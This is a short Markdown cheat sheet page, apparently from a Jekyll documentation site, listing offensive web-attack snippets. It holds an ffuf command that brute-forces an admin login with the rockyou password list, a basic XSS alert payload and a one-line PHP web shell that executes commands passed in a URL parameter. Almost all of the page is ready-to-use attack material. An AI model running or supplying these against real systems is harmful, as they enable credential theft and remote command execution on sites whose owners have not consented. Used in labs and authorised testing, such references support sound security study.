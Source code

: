 ```yaml
---
title: Cheat Sheet
layout: default
nav_order: 4
---
```


# Cheat Sheet

[← Go back to main page](./index.md)

## [ffuf](https://github.com/ffuf/ffuf)

### Simple login page

```sh
ffuf \
  -u https://website.com/login \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -X POST -d "username=admin&password=FUZZ" \
  -w /usr/share/wordlists/rockyou.txt:FUZZ  \
  -fr "Incorrect"
```

## XSS

```html
<script>alert(1)</script>
```
  
## Web shell

### PHP

```php
<?php system($_GET['cmd']); ?>
```
